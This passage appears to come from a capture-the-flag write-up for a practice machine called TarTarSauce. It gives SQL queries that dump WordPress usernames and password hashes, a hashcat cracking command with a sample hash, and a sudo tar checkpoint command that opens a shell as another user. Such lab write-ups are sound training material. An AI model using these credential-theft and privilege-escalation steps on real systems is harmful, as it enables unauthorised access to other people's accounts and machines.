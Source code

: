 Then extract the password hash and username as follows:

```mysql
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema = 'wp';
SELECT column_name FROM information_schema.columns WHERE table_name = 'wp_users';
SELECT user_login,user_pass FROM wp.wp_users;
```

![user3](./tartarsauce/user3.png)

Now try to crack this password as follows:

```bash
echo '$P$BBU0yjydBz9THONExe2kPEsvtjStGe1' > wp.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 400 -a 0 --quiet --potfile-disable wp.hash rockyou.txt
```

But this does not provide any easy wins... Next it seems like the `www-data` user has sudo permissions:

![user4](./tartarsauce/user4.png)

`tar` is a known binary for PE:

- https://gtfobins.github.io/gtfobins/tar/

Use the following command to move laterall to the user `onuma`:

```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

And this gets `user.txt`:

